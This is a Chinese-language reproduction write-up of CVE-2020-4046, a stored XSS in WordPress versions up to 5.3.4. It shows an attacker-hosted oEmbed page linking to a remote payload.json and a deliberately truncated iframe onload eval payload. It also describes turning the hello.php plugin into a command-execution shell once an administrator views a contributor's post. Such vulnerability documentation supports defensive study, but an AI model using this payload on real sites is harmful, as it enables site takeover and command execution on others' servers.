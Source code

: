 （CVE-2020-4046）WordPress 5.3.4 储型XSS
========================================

一、漏洞简介
------------

该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

WordPress
5.3.4版本，5.2.7版本，5.1.6版本，5.0.10版本，4.9.15版本，4.8.14版本，4.7.18，
4.6.19版本，4.5.22版本，4.4.23版本，4.3.24版本，4.2.28版本，4.1.31版本，4.0.31版本，3.9.32版本，3.8.34版本，3.7.34版本。

三、复现过程
------------

要利用该漏洞，攻击者需要在其自身的web服务器上托管两个文件（这些文件的内容将在后面显示）。为使漏洞利用正常进行，被攻击的目标服务器必须能访问攻击者web服务器以下载payload。虽然WordPress有健全的外部资源引用控制机制，但是此类安全设置将会阻止WordPress嵌入其它正常的URL，因此实际场景中开启此安全设置是比较少见的。我们基于`@g0blinResearch`师傅的文章生成payload。然后将payload中插件地址修改为`hello.php`（也就是`/wp-content/plugins/hello.php`），该插件为WordPress默认插件且可以访问，同时进行了其他一些小的改动。该payload使用`https://eve.gd/2007/05/23/string-fromcharcode-encoder/`在线工具进行编码，以避免各种转义问题。在此演示中，对应的`payload.htm`如下：

    <HTML>
            <HEAD>
                    <LINK type="application/json+oembed" href="http://attackbox1.pentest.co.uk/payload.json">
            </HEAD>
    </HTML>

`payload.json`部分如下，（没有给出完整的利用代码是为了避免漏洞在未修复前被恶意利用）：

    {
            "type":"rich",
            "html":"<blockquote><iframe title=' width=\"'></iframe></blockquote><iframe src='noexist' title='xxx' 
             height=' title=' width=\"'' onload='eval(String.fromCharCode(118,97,114,…))'\"></iframe>"
    }

现在，我们用至少具有`贡献者`权限的账户登录目标站点，随后创建一个帖子以嵌入我们payload：

![1.png](resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId24.png)

管理员随后查看帖子时：

![2.png](resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId25.png)![3.png](resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId26.png)

我们的payload已执行，并且对应`/wp-content/plugins/hello.php`文件被编辑成允许我们执行任意系统命令：

![4.png](resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7929
>
> https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
